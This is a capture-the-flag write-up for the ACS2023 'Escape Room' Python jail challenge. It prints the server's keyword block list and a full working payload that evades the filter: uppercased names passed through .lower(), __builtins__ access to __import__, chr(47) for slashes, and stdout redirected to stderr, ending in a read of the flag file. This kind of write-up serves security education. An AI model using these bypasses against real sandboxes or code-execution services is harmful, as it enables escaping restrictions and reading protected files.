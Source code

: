 ```yaml
---
title: "Escape Room [Code Audit]"
categories: Acs2023
permalink: /ctfs/acs2023/escaperoom
---
```

Python Jail challenge for bypassing condition checks and performing code execution.

## 📁 Challenge Description

> Can you escape?
>
> Connect to instance: `nc 192.168.0.45 50137`

```python
import os, sys

def main():
  filter_list = ['sys','import','flag','open','/',"sh","bin",'eval','exec','os','read','system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  
  main()
```

## 🚩 Solution

The program accepts multi-line inputs until it detects the word `'EOF'` at the end of the input. The flag is placed somewhere in the instance. So, we need to figure out how to bypass the condition checks and successfully execute our commands.

Looking through the code, the program seems like filtered out some significant words including `sys`, `import`, `flag`, `open`, `eval`, `exec`, `os`, `read`, `system`, `bin`, `sh`, even the word `flag` and `/`.

We know we need to use these words to help us retrieve the flag. 

During the competition, I found an amazing [write-up](https://anee.me/escaping-python-jails-849c65cf306e) that is very similar to this challenge. Python has a `__builtins__` module that can directly access the pre-defined functions using `__dict__` representation.

Example:

```python
>>> import os.system
>>> __builtins__.__dict__['__import__']('os').__dict__['system']('')
```

These two lines have the same meaning. Of course, we are not going to directly insert the filtered words as they get rejected based on the list.

Luckily, there is a flaw in the `filter_list` where it only checks for the lowercase of the words. Therefore, we can capitalize all the words and add `.lower()` to bypass the check.

```python
>>> __builtins__.dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('')
```

Ok, now here is a problem. The program has another line that prevents returning any outputs to the user. Here is the line,

```python
os.close(0)
os.close(1)
exec(binary)
```

The `os.close()` accepts **File Descriptors** as a parameter. By default, file descriptor `0` refers to standard input, `1` refers to standard output, and `2` refers to standard error. By knowing this, we know that the program is currently using the standard output as it is trying to close this file descriptor before the commands are executed. So, when we attempt to print any output, it will return

```
$ nc 192.168.0.45 50137
Please Input your Source code > 
print('anything')
EOF

Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
OSError: [Errno 9] Bad file descriptor
```

What should we do next? The program does close the standard output but it returns an error. Remember that `2` is the file descriptor for standard error which the program does not include it. Hence, I ended up with a crazy move that I can redirect my standard error to standard output.

```python
>>> __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
```

Now, the standard error is my standard output, which means any output I want to print should replace the error field. By defining this line, the `print()` function will work successfully.

```
$ nc 192.168.0.45 50137
Please Input your Source code >
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
print('anything')
EOF

anything
```

Combine what we have now and we can make our payload.

```
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
```

As the program checks `/`, we replace it with `chr(47)` which gives the same meaning. The `os.listdir()` is also used to list the current directory by providing an absolute path and we found a `ctf_user` directory.

Getting deeper, we found the `flag` file. We used the same `.lower()` method to bypass that. However, the program filters the word `read` where `__builtins__` does not include it. Hence, we use a `for` loop to print every character out without abusing the condition checks. From here, we got the flag.

Final payload:

```
$ nc 192.168.0.45 50137
Please Input your Source code >
__builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stdout'] = __builtins__.__dict__['__IMPORT__'.lower()]('SYS'.lower()).__dict__['stderr']
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47))
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['listdir'](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)))
f = __builtins__.__dict__['OPEN'.lower()](chr(47)+'home'+chr(47)+'ctf_user'+chr(47)+'FLAG'.lower(), 'r')
for i in f:
        print(i)
EOF

['ctf_user']
['.bashrc', '.bash_logout', '.profile', 'flag', 'main.py']
ACS{r00m_nam3_i4_sandbox__and__y0u_escap3_r00m_successfully!!!}
```

Hope you enjoyed it!
